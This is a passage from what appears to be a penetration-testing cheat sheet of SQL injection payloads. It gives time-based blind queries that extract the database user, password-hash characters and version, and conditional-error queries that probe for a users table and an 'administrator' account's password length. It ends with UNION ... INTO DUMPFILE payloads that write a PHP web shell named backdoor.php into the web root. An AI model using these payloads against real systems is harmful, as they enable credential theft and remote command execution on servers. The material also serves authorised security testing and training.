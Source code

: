 Another way to determine the exact number of columns is by using e.g. `' ORDER BY 1-- `, where `1` is the column number used for sorting - try incrementing it by one.

---

Time-based SQLi:

```fundamental
' AND (SELECT 1 FROM (SELECT sleep(2)) test)-- 

' AND (SELECT 1 FROM (SELECT CASE user() WHEN 'root@127.0.0.1' THEN sleep(2) ELSE sleep(0) END) test)-- 

' AND (SELECT 1 FROM (SELECT CASE substring(current_user(),1,1) WHEN 'r' THEN sleep(2) ELSE sleep(0) END) test)-- 

' AND (SELECT CASE substring(password,1,1) WHEN '$' THEN sleep(2) ELSE sleep(0) END FROM users WHERE id = 1)-- 

' AND IF(version() LIKE '5%',sleep(2),sleep(0))-- 
```

Use the time-based SQLi when you are not able to see the results.

---

Check for the existance/correctness:

```fundamental
' AND (SELECT 'exists' FROM users) = 'exists

' AND (SELECT 'exists' FROM users WHERE username = 'administrator') = 'exists

' AND (SELECT 'correct' FROM users WHERE username = 'administrator' AND length(password) < 8 ) = 'correct

' AND (SELECT CASE substring(password,1,1) WHEN '$' THEN to_char(1/0) ELSE 'correct' END FROM users WHERE username = 'administrator') = 'correct

'||(SELECT CASE substring(password,1,1) WHEN '$' THEN to_char(1/0) ELSE '' END FROM users WHERE username = 'administrator')||'
```

---

Inject a [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_get.php) based on HTTP GET request:

```fundamental
' UNION SELECT '', '', '', '<?php if(isset($_GET["command"])){echo shell_exec($_GET["command"]);} ?>' INTO DUMPFILE '..\\..\\htdocs\\backdoor.php'-- 

' UNION SELECT '', '', '', '<?php $p="command";$o=null;if(isset($_SERVER["REQUEST_METHOD"])&&strtolower($_SERVER["REQUEST_METHOD"])==="get"&&isset($_GET[$p])&&($_GET[$p]=trim($_GET[$p]))&&strlen($_GET[$p])>0){$o=@shell_exec("($_GET[$p]) 2>&1");if($o===false){$o="ERROR: The function might be disabled.";}else{$o=str_replace("<","&lt;",$o);$o=str_replace(">","&gt;",$o);}} ?><!DOCTYPE html><html lang="en"><head><meta charset="UTF-8"><title>Simple PHP Web Shell</title><meta name="author" content="Ivan Šincek"><meta name="viewport" content="width=device-width, initial-scale=1.0"></head><body><pre><?php echo $o;unset($o);unset($_GET[$p]); ?></pre></body></html>' INTO DUMPFILE '..\\..\\htdocs\\backdoor.php'-- 
```
